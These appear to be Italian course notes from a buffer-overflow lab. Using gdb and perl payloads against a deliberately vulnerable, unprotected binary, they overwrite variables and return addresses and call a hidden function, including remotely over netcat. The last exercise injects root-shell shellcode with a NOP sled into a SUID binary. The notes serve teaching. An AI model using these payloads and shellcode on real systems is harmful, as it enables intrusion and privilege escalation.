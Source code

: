 # Processi in memoria   
Il programmatore vede gli **indirizzi virtuali**, tradotti dall'OS in **indirizzi fisici.**

- Lo stack cresce verso indirizzi più bassi
- L'heap cresce verso indirizzi più alti

# Esercizi
## returnlib

**Obiettivo**: analizzare il codice

**Strategia**: disassemblare il main, trovare chiamate a funzione

```sh
gcc -o es -fno-stack-protector -m32 -z execstack es.c

gdb ./es
disas main

# trovo la funzione vulnerable
disas vuln

# eseguo con un valore
run 10
```

## write_var

**Obiettivo**: scrivere un valore in una variabile locale

**Strategia**: "rompere" l'array con un numero elevato

```sh
run $(perl -e 'print "A"x150')
# La variabile è 414141... ovvero le A. Poi dà segm. ault

run $(perl -e 'print "A"x104',"EDCB") 
# 104 caratteri di A che rompono lo stack e EDCB che è il valore che in ascii volevamo ottenere 

```

# secret_function

**Obiettivo**: eseguire una funzione segreta

**Strategia**: trovare l'indirizzo della funzione e sovrascrivere il return address

```sh

info functions 

# trovo l'indirizzo della funzione secret: 0x565561ad
# RICORDA: LITTLE ENDIAN

run $(perl -e 'print "A"x16,"\xad\x61\x55\x56"')
# 16 A che rompono lo stack, 4 B che sono il return address e l'indirizzo della funzione segreta
```

# secret_function_remote

- ```nc -l -p 8000  -e ./es```: Mi metto in ascolto sulla porta 8000 e, tutto ciò che viene messo nello standard input della pora 8000 viene messo nello standard input del processo ./es

- su ```eth1``` della macchina vedo il mio ip host only (192.168.56.6). Mi connetto dalla **macchina host** a ```nc 192.168.56.6 8000```
- Ora provo a scrivere il payload malevolo ```$(perl -e 'print "A"x16,"\xad\x61\x55\x56"')``` dalla macchina host


- fa partire il comando cat che si mette in ascolto della tastiera e redirezionerà tutto in una shell aperta nel testo

- **comando macchina host**: ```{ perl -e 'print "A"x16, "\xad\x61\x55\x56"'; cat; } | nc 192.168.56.6 8000```

# shellcode

**Obiettivo**: eseguire un comando shell 

**Strategia**: scrivere un comando shell in assembly, compilarlo e metterlo in un array

1. Assegna il binario all'utente root e setta il SUID
```sh
chown root:root es
chmod u+s es
```

2. Eseguo gdb con sudo, e analizzo facendo ```disas``` sia **main** sia **vuln**

3. Navigo un po' con il padding mettendo A (dati mock) e B (indirizzi di ritorno) fin quando non vedo 424242 e nessun 41 

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()

```sh
run $(perl -e 'print "A"x112,"BBBB"')
```

4. Visualizzo lo stack

```sh   
x/200xw $esp

# Riesco a vedere i 41 (A) e i 42(B) indirizzi di ritorno sovrascritti
# A sinistra vedo un indirizzo di ritorno plausibile, dove sono le A

```

5. Calcolo la lunghezza dello shellcode con ```python -> len(b'shellcode.txt')```, è di 46 byte

6. Visto che ci servono 112byte di padding + 4 di ritorno, e ne abbiamo 46 di shellcode, il calcolo è


	[66 byte di nop (in ascii \x90 ) ] +
	[ 46 byte di shellcode  ] + 
	[ 4 byte di indirizzo (ricorda tutto little endian)  ]

```sh

$(perl -e print' "\x90"x66, "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68", "\x90\xd5\xff\xff " ')

```
